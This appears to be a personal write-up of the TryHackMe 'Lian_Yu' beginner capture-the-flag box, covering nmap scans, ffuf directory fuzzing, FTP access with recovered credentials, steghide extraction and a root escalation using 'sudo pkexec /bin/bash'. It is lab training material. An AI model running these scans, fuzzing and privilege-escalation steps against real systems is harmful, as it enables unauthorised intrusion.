 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/lian-yu/","tags":["CTF","write-up","Steganography","sudo-l"]}
---
```



![Pasted image 20250110105432.png|300](/img/user/attachments/Pasted%20image%2020250110105432.png)

---

> [!INFO] Info about Lian_Yu
>  A beginner level security challenge
>  
>  Welcome to Lian_YU, this Arrowverse themed beginner CTF box! Capture the flags and have fun.

> [!FAQ]- Hints
> No Hints.

---
# Active reconnaissance
## Port scan
Perform a quick general scan on all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT    STATE SERVICE REASON
21/tcp  open  ftp     syn-ack ttl 61
22/tcp  open  ssh     syn-ack ttl 61
80/tcp  open  http    syn-ack ttl 61
111/tcp open  rpcbind syn-ack ttl 61
```

---
# Enumeration
Perform a deep scan with common scripts only on ports we are interested in.
```shell
sudo nmap TARGET_IP -sCV -p 21,22,80,111 -oN nmap_enum
```
## OS
Linux, Debian
## Port 21 - FTP
tcp  open  ftp     **vsftpd 3.0.2**
## Port 22 - SSH
tcp  open  ssh     **OpenSSH 6.7p1** Debian 5+deb8u8 (protocol 2.0)
## Port 111 - RPC
tcp open  **rpcbind 2-4** (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          34556/udp6  status
|   100024  1          37021/tcp6  status
|   100024  1          58975/tcp   status
|_  100024  1          60900/udp   status
## Port 80 - Apache
tcp  open  http    Apache httpd
|http-server-header: Apache
|http-title: Purgatory
![Pasted image 20250110111117.png](/img/user/attachments/Pasted%20image%2020250110111117.png)
### Fuzz
```shell
ffuf -c -t 100 -u http://<TARGET>/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -mc all -fc 404 -e .php,.html,.txt
```
I found the subdir island
![Pasted image 20250110112220.png](/img/user/attachments/Pasted%20image%2020250110112220.png)
### Island
![Pasted image 20250110112255.png](/img/user/attachments/Pasted%20image%2020250110112255.png)
Important things:
![Pasted image 20250110112729.png](/img/user/attachments/Pasted%20image%2020250110112729.png)

> [!important]- Important
> vigilante
> go!go!go!

Fuzzing again
```shell
ffuf -c -t 100 -u http://10.10.233.165/island/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -mc all -fc 404
```

> [!check] What is the Web Directory you found?
> ![Pasted image 20250110114230.png](/img/user/attachments/Pasted%20image%2020250110114230.png)
#### 2100
![Pasted image 20250110114603.png|500](/img/user/attachments/Pasted%20image%2020250110114603.png)

> [!hint] Hint
> ![Pasted image 20250110115525.png](/img/user/attachments/Pasted%20image%2020250110115525.png)

I'll try fuzzing with the extension *.ticket*
```shell
ffuf -c -t 100 -u http://10.10.233.165/island/2100/FUZZ.ticket -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -mc all -fc 404
```

> [!check] What is the file name you found?
> ![Pasted image 20250110115724.png](/img/user/attachments/Pasted%20image%2020250110115724.png)

Go to the file
![Pasted image 20250110120018.png](/img/user/attachments/Pasted%20image%2020250110120018.png)
We get a code.
Decode with *cyberchef*
> [!check] what is the FTP Password?
> ![Pasted image 20250110122801.png](/img/user/attachments/Pasted%20image%2020250110122801.png)

It's a password

---
# Exploitation
## FTP
Login with the credentials and the username *vigilante*
![Pasted image 20250110123046.png](/img/user/attachments/Pasted%20image%2020250110123046.png)
Download the files with the command *get*

Furthermore, we can navigate through the system folders, for example with `cd ..` to get another username
![Pasted image 20250110154535.png](/img/user/attachments/Pasted%20image%2020250110154535.png)
## Steganography
### aa
The image aa.jpg
![Pasted image 20250110123558.png](/img/user/attachments/Pasted%20image%2020250110123558.png)
We have the password

Extract it using the password from above
```shell
steghide extract -sf aa.jpg
```
![Pasted image 20250110123736.png](/img/user/attachments/Pasted%20image%2020250110123736.png)

Extract the *zip*
![Pasted image 20250110123808.png](/img/user/attachments/Pasted%20image%2020250110123808.png)

Passwd.txt
![Pasted image 20250110124034.png](/img/user/attachments/Pasted%20image%2020250110124034.png)

*shado* file:
> [!check] What is the file name with SSH password?
> ![Pasted image 20250110134702.png|200](/img/user/attachments/Pasted%20image%2020250110134702.png)
## SSH
Login through SSH
With the other username
![Pasted image 20250110154649.png](/img/user/attachments/Pasted%20image%2020250110154649.png)

> [!check] User flag
> ![Pasted image 20250110154822.png](/img/user/attachments/Pasted%20image%2020250110154822.png)

---
# Privilege escalation
## sudo -l
Check sudo permission
![Pasted image 20250110155114.png](/img/user/attachments/Pasted%20image%2020250110155114.png)
Search a way to exploit it on *gtfobins*
```
sudo pkexec /bin/bash
```
![Pasted image 20250110155241.png](/img/user/attachments/Pasted%20image%2020250110155241.png)
> [!check] Root flag
> ![Pasted image 20250110155331.png](/img/user/attachments/Pasted%20image%2020250110155331.png)

---
